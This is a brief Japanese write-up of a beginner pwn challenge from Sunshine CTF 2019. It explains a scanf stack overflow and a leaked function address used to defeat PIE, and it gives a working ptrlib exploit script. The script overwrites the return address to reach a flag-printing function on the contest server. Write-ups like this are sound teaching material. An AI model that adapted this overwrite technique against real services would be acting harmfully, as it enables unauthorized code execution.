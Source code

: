 # [pwn 50pts] Return To Mania - Sunshine CTF 2019
PIEが有効なので注意です。
```
$ checksec return-to-mania
[*] 'return-to-mania'
    Arch:	32 bits (little endian)
    NX:		NX enabled
    SSP:	SSP disabled (No canary found)
    RELRO:	No RELR
    PIE:	PIE enabled
```
welcome関数にscanfのスタックオーバーフローがあります。
また、フラグを読み込んで表示するmania関数があります。
したがって、リターンアドレスを部分的に書き換えて、mainへのリターンアドレスをmaniaのアドレスに書き換えます。

```python
from ptrlib import *

elf = ELF("./return-to-mania")
#sock = Process("./return-to-mania")
sock = Socket("ret.sunshinectf.org", 4301)

sock.recvuntil("welcome(): ")
addr_welcome = int(sock.recvline(), 16)
proc_base = addr_welcome - elf.symbol("welcome")
addr_mania = proc_base + elf.symbol("mania")
dump("proc_base = " + hex(proc_base))

payload = b'A' * 0x16
payload += p32(addr_mania)
sock.sendline(payload)
sock.interactive()
```

# 感想
PIEを勉強した初心者向け問題だと思います。